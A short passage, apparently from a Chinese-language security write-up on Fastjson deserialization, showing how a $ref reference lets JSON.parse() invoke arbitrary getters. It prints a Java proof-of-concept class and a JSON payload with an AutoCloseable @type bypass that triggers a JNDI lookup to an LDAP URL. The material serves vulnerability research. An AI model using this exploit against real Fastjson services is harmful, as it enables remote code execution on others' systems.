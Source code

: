 Readable同理。


拓展使用$ref拓展攻击面，使用parse()解析的也能触发任意getter。这个payload来自 [@threedr3am](https://github.com/threedr3am/learnjavabug/commit/ea61297cf7b2125ecae0064d2b8061a9e32db1e6)

```java
package org.chabug.fastjson.exploit;

import com.alibaba.fastjson.JSON;
import org.apache.shiro.jndi.JndiLocator;
import org.apache.shiro.util.Factory;

import javax.naming.NamingException;

public class RefAnyGetterInvoke<T> extends JndiLocator implements Factory<T>, AutoCloseable {
    private String resourceName;

    public RefAnyGetterInvoke() {
    }

    public static void main(String[] args) {
        String json = "{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.chabug.fastjson.exploit.RefAnyGetterInvoke\",\n" +
                "  \"resourceName\": \"ldap://localhost:1389/Calc\",\n" +
                "  \"instance\": {\n" +
                "    \"$ref\": \"$.instance\"\n" +
                "  }\n" +
                "}";
        System.out.println(json);
        JSON.parse(json);   // 默认不会调用getter 使用$ref就可以调用到getInstance()
//        JSON.parseObject(json); // parseObject默认就会调用getter getInstance()
    }

    public T getInstance() {
        System.out.println(getClass().getName() + ".getInstance() invoke.");
        try {
            return (T) this.lookup(this.resourceName);
        } catch (NamingException var3) {
            throw new IllegalStateException("Unable to look up with jndi name '" + this.resourceName + "'.", var3);
        }
    }

    public String getResourceName() {
        System.out.println(getClass().getName() + ".getResourceName() invoke.");
        return this.resourceName;
    }

    public void setResourceName(String resourceName) {
        System.out.println(getClass().getName() + ".setResourceName() invoke.");
        this.resourceName = resourceName;
    }

    @Override
    public void close() throws Exception {

    }
}
```
